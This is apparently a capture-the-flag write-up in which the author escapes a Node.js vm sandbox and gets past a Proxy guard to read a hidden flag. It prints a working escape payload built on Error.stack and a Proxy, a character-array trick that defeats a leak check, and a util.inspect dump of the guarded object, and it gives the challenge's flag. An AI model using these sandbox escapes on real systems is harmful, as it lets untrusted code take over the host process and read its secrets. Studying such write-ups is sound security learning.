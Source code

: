 Let's take a look at the js scripts we are given:

After looking at these files, it's obvious that we need to get the inner value of `globalThis.storage`.  
But the problem is that the `storage` object is proxied via JS' `Proxy`, which lets us hook some internal function like `[[Get]]` (`object[key]`), `[[Set]]` (`object[key] = value`).  

So let's try to run some code to check what properties global object has:

![](./img1.png)

Seems like nothing useful for us to exploit, but wait... We're in the node's vm, which means we can try to escape to the node's host context

Let's try the most obvious escape: `this.constructor.constructor`:

![](./img2.png)

Hmm... looks like we're still in the same context. Let's take a look at what our global VM context is: 
```js
vm.runInNewContext(`(() => { return ${workerData} })();`, Object.create(null));
```
So you might notice that it's not an empty object passed to VM, but it's the object that has null prototype. This means that the `constructor' object is not in the same context as the host context.

Fortunately, there are tons of ways to exploit node's VM, I'll use this one:

```js
(() => {
    const err = new Error();
    err.name = {
        toString: new Proxy((() => {}), {
            apply(ctx, thisArg, args) {
                throw args.constructor.constructor("return this")()
            }
        })
    };
    try {
        err.stack
    } catch (err) {
        return err
    }
})();
```

This works because `err.stack` calls `name.toString` under the hood, with `args` being an object from the host context.

Let's check which context we are in this time:
![](./img3.png)

Yay, we're in host context now. So now we can start working on the main problem: retrieving `secret` from `storage`.  
However, it's not possible to just get it from the object through the indexer:

![](./img4.png)

It results in a `null' value because it's proxied by the following code:

```js
get: (target, name) => {
    if (name == "secret") {
        return null;
    }

    return target[name];
},
```

Any attempt to retrieve a value from `storage` using the key `secret` will result in `null'.

But there's another handler as well:

```js
getOwnPropertyDescriptor: (target, name) => {
    if (name == "secret") {
        return {
            value: process.env["FLAG"],
            writable: true,
            enumerable: true,
            configurable: true,
        };
    }

    return target[name];
},
```

Let's try to call it with this code:

```js
return JSON.stringify(Object.getOwnPropertyDescriptor(this.storage, `secret`))
```

Oops, seems like there's a check to see if the contents of the flag are leaked:

![](./img5.png)

So let's modify our code a bit:

```js
return [...JSON.stringify(Object.getOwnPropertyDescriptor(this.storage, `secret`))]
```
This will return our string as an array of characters, bypassing the check:

![](./img6.png)

The flag is obviously fake, though, and we need to look in another direction.

Considering that we are working with the `Proxy` object, and it seems that it can't be bypassed with such tricks as 'hooking' the function.  We could look at some debug JS modules, one of them is `util`. Looking at the functions present in this module, one could notice the `inspect()` function which returns a string representation of the object. 

To import modules we need `require` function which we can get from `module` object which fortunately is present in host context, now we can easily build code to get `secret` value:

```js
return [...module.require('util').inspect(this.storage)]
```

And there it is:
![](./img7.png)

The flag is: `cr3{W0vv53Rs_1n5q3c70R_G4dg3T!!1}` 